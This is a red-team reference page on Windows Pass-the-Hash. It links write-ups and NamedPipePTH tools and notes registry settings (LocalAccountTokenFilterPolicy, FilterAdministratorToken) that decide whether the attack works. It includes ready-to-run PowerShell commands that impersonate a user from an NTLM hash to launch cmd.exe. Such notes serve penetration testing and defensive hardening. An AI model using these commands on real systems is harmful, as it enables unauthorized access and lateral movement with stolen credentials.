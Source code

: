 # Pass-the-Hash

- [https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/](https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/)




## NamedPipePTH

* [https://s3cur3th1ssh1t.github.io/Named-Pipe-PTH/](https://s3cur3th1ssh1t.github.io/Named-Pipe-PTH/)
* [https://github.com/S3cur3Th1sSh1t/NamedPipePTH](https://github.com/S3cur3Th1sSh1t/NamedPipePTH)
* [https://github.com/S3cur3Th1sSh1t/SharpNamedPipePTH](https://github.com/S3cur3Th1sSh1t/SharpNamedPipePTH)

Impersonate a user with Pass-the-Hash for **local** actions (network authentication does not work with `Impersonation Token`, only with `Delegation Token`):

```
PS > Invoke-ImpersonateUser-PTH -Username snovvcrash -Hash fc525c9683e8fe067095ba2ddc971889 -Target localhost -Domain . -PipeName mypipe -Binary C:\Windows\System32\cmd.exe -Verbose
PS > Invoke-SharpNamedPipePTH -C "username:snovvcrash domain:{megacorp.local|localhost} hash:fc525c9683e8fe067095ba2ddc971889 binary:C:\Windows\System32\cmd.exe"
```

Can be used for authenticating in SQL Server management tools (`%PROGRAMFILES(X86)%\Microsoft SQL Server Management Studio 18\Common7\IDE\Ssms.exe`) and accessing DBs with SQL admin hash, for example.




## PtH Notes

- [https://offensivedefence.co.uk/posts/ntlm-auth-firefox/](https://offensivedefence.co.uk/posts/ntlm-auth-firefox/)
- [https://sensepost.com/blog/2023/protected-users-you-thought-you-were-safe-uh/](https://sensepost.com/blog/2023/protected-users-you-thought-you-were-safe-uh/)



### User Account Control

* [https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/](https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/)



### LocalAccountTokenFilterPolicy & FilterAdministratorToken

| Property Name                                                                                                                                              | Property Path                                                                                  |
|------------------------------------------------------------------------------------------------------------------------------------------------------------|------------------------------------------------------------------------------------------------|
| [LocalAccountTokenFilterPolicy](https://docs.microsoft.com/ru-ru/troubleshoot/windows-server/windows-security/user-account-control-and-remote-restriction) | `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\` |
| [FilterAdministratorToken](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gpsb/7c705718-f58e-4886-8057-37c8fd9aede1)                      | `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\` |

If `LocalAccountTokenFilterPolicy` exists and is set to `1` (doesn't exist by default), remote connections from **all** local admins are not affected by UAC and PtH will succeed:

```
PS > Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\" -Name LocalAccountTokenFilterPolicy
```

If `FilterAdministratorToken` exists and is set to `1` (doesn't exist by default), builtin local admin account (RID 500) is affected by UAC and PtH will fail:

```
PS > Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\" -Name FilterAdministratorToken
```
